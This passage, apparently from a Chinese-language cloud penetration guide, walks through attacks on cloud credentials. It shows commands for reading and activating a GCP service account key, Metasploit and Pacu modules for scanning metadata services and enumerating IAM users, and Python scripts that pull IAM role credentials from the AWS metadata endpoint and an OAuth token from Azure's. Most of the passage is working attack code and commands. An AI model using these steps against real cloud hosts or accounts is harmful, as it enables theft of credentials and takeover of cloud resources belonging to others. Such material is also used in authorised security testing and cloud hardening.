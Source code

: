 **GCP Service Account攻击**：
1. 读取Service Account JSON文件：
   ```bash
   cat /path/to/service-account.json
   ```
2. 使用JSON文件访问Storage Object：
   ```bash
   gcloud auth activate-service-account --key-file=/path/to/service-account.json
   gsutil ls gs://<bucket>
   ```

## 4. 实际命令、代码或工具使用说明

### 4.1 工具使用
**Metasploit**：
1. 使用Metasploit的`auxiliary/scanner/http/aws_metadata`模块扫描暴露的元数据服务：
   ```bash
   use auxiliary/scanner/http/aws_metadata
   set RHOSTS <target-ip>
   run
   ```

**Pacu**：
1. 使用Pacu的`iam__enum_users`模块枚举IAM用户：
   ```bash
   run iam__enum_users
   ```

**CloudSploit**：
1. 使用CloudSploit扫描AWS账户中的配置错误：
   ```bash
   cloudsploit scan --aws-access-key-id <access-key-id> --aws-secret-access-key <secret-access-key>
   ```

### 4.2 代码示例
**Python代码读取AWS元数据**：
```python
import requests

url = "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
response = requests.get(url)
role_name = response.text

url = f"http://169.254.169.254/latest/meta-data/iam/security-credentials/{role_name}"
response = requests.get(url)
credentials = response.json()

print(credentials)
```

**Python代码读取Azure元数据**：
```python
import requests

url = "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
headers = {"Metadata": "true"}
response = requests.get(url, headers=headers)
token = response.json()["access_token"]

print(token)
```
